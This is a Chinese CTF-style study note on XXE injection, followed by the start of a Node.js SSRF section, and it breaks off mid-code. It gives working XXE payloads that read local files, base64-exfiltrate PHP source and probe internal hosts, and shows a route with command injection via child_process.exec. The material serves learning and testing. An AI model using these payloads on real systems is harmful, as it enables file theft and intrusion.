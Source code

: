 - DTD：用于XML文档格式规范，可内部外部引入`<!DOCTYPE ... `
- 外部实体支持协议：`php(file, php, http, ftp), java(http, ftp, https)`
- XML外部实体注入，XML External Entity Injection，解析XML输入未禁止外部实体加载

抓包POST数据以XML形式传输

```xml
<user><username>input_thing</username></user>
```

**注入**

- 声明XML文档版本及编码，可选

```xml
<?xml version="1.0" encoding = "utf-8"?> 
<!DOCTYPE test [
<!ENTITY file SYSTEM  "file:///flag">
]>
<user>
	<username>&file;</username>
</user>
```

**使用协议获取源码**

```xml
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/xxx.php">
<!-- 获取内容base64解码 -->
```

**探测内网**

- 可通过`/proc/net/fib_trie, /proc/net/arp, /etc/hosts`获取可疑内网IP

```xml
<!ENTITY file SYSTEM "http://x.x.x.x/"> <!-- 通过此访问内网主机数据 -->
```



## Node.js

### 基础知识



### SSRF漏洞

#### 漏洞点

- 设置服务器端口

```js
var port = normalizePort(process.env.PORT || '3000');
```

- 此处通过post传入payload再通过get本地服务器访问达成SSRF利用

```js
// routes/index.js
var blacklist=['::ffff:127.0.0.1','127.0.0.1','0','localhost','0.0.0.0','[::1]','::1'];

// req中ip:客户端IP地址, url:请求URL, query:GET查询参数, body:POST请求体数据
router.get('/debug', function(req, res, next) { // 请求对象, 响应对象, 下一步中间件
    if(blacklist.indexOf(req.ip)!=-1){ // 黑名单过滤
        var u=req.query.url.replace(/[\"\']/ig,''); // 清除请求url的单双引号
        
        let log=`echo '${url.parse(u).href}'>>/tmp/log`;
        child_process.exec(log); // 执行命令
        res.json({data:fs.readFileSync('/tmp/log').toString()}); // 读取内容返回
    }else{
        res.json({});
```